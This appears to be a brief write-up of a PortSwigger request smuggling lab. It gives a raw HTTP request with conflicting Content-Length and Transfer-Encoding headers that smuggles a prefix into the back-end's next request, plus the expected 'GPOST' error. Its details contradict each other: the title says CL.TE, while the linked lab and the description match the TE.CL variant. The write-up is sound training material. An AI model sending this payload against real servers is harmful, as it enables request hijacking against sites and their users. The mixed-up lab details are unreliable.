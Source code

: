 # HTTP request smuggling, basic CL.TE vulnerability

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl) involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

## Reproduction and proof of concept

1. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

The second response should say: ``Unrecognized method GPOST``.

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

The HTTP Request Smuggler Burp extension was designed to help. Install it via the BApp Store. 

